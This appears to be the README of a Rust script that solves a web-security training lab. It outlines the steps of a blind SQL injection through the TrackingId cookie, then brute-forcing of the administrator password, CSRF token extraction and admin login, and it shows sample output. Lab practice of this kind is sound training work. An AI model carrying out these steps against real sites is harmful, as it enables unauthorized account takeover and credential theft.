 ## Hack Steps

1. Inject payload into 'TrackingId' cookie to determine the length of administrator's password based on conditional errors
2. Modify the payload to brute force the administrator's password 
3. Fetch the login page
4. Extract the csrf token and session cookie
5. Login as the administrator
6. Fetch the administrator profile

## Run Script

1. Change the URL of the lab
2. Start script

```
~$ cargo run
```

## Expected Output

```
⦗#⦘ Injection point: TrackingId
⦗1⦘ Determining password length .. 
❯❯ Checking if length = 8
❯❯ Checking if length = 15
        .........
❯❯ Checking if length = 20 [ Correct length: 20 ]
⦗2⦘ Brute forcing password.. (30%):   0 c    a f  e    c
⦗2⦘ Brute forcing password.. (50%):   0 cw t avf  e   pc
        .........
⦗2⦘ Brute forcing password.. (100%): fd0rcwutjavfb5e28vpc
⦗3⦘ Fetching the login page.. OK
⦗4⦘ Extracting the csrf token and session cookie.. OK
⦗5⦘ Logging in as the administrator.. OK
⦗6⦘ Fetching the administrator profile.. OK
🗹 The lab should be marked now as solved
```
